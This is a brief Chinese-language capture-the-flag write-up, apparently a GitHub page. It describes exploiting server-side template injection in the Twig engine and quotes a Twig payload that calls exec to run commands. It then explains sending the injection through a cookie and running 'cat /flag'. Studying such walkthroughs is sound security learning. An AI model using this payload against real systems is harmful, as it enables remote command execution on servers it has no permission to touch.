


一眼 ssti，对应模板引擎是 Twig



用 payload 打，发现被过滤了

```payload
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

试了很多 payload 并没有打通，但是在 Response 回显里面发现 cookie 会记录 username 的发包，所以这里我尝试直接在 cookie 里面发包



直接 `cat%20/flag`


